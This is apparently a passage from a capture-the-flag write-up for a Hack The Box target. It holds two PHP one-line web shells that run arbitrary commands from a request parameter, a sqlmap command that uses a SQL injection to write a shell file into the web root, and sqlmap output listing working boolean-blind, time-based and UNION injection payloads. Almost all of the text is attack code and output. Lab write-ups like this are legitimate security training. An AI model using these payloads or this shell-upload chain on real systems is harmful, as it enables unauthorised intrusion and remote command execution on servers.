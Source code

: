 ```php
<?php system($_GET['cmd']); ?>

<?php system($_REQUEST['cmd']); ?>
```

```bash
└─$ sqlmap -r req --batch --file-write shell.php --file-dest /var/www/vote/shell.php
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[.]_____ ___ ___  {1.9.6#stable}                                                                                                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:18:16 /2025-08-13/

[11:18:16] [INFO] parsing HTTP request from 'req'
[11:18:16] [INFO] resuming back-end DBMS 'mysql' 
[11:18:16] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=225'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5901=5901 AND 'HaTg'='HaTg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND (SELECT 1771 FROM (SELECT(SLEEP(5)))Nfcz) AND 'egFU'='egFU

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=http://vote.cobblestone.htb/index.php' UNION ALL SELECT NULL,CONCAT(0x7178707671,0x6145494f4c7a53735276666843686a5749724b69696a574768636f4e6c4c4e424e6756506a49794c,0x71707a7071),NULL,NULL,NULL-- -
---
[11:18:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:18:17] [INFO] fingerprinting the back-end DBMS operating system
[11:18:18] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[11:18:18] [INFO] the back-end DBMS operating system is Linux
[11:18:20] [WARNING] expect junk characters inside the file as a leftover from UNION query
```